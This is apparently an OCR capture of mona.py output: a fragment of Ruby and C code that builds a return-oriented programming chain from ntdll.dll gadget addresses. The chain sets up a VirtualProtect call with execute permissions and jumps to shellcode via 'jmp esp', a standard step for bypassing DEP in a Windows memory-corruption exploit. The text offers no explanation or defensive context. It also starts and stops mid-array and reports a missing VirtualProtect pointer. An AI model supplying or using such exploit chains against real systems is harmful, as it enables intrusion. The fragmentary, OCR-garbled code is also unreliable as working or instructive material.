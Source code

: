 	0x77662065, # JMP [EAX] [ntdll.dll]

	0x776fa30c, # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, # [-] Unable to find ptr to &VirtualProtect()

	0x77661052, # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776e72d9, # ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	].flatten.pack("V*")

	return rop_gadgets

	end

	# Call the ROP chain generator inside the 'exploit' function :

	rop_chain = create_rop_chain()

	*** [ C ] ***

	#define CREATE_ROP_CHAIN(name, ...) 

	int name##_length = create_rop_chain(NULL, ##__VA_ARGS__); 

	unsigned int name[name##_length / sizeof(unsigned int)]; 

	create_rop_chain(name, ##__VA_ARGS__);

	int create_rop_chain(unsigned int *buf, unsigned int )

	{

	// rop chain generated with mona.py - www.corelan.be

	unsigned int rop_gadgets[] = {

	0x776d94d5, // POP EBP // RETN [ntdll.dll] ** REBASED ** ASLR

	0x776d94d5, // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR

	0x77695aca, // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000201, // 0x00000201-> ebx

	0x776a6b7b, // POP EDX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, // 0x00000040-> edx

	0x777173a2, // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x7773c513, // &Writable location [ntdll.dll] ** REBASED ** ASLR

	0x7769577a, // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, // RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x776e0f9a, // POP ESI // RETN [ntdll.dll] ** REBASED ** ASLR

	0x77662065, // JMP [EAX] [ntdll.dll]
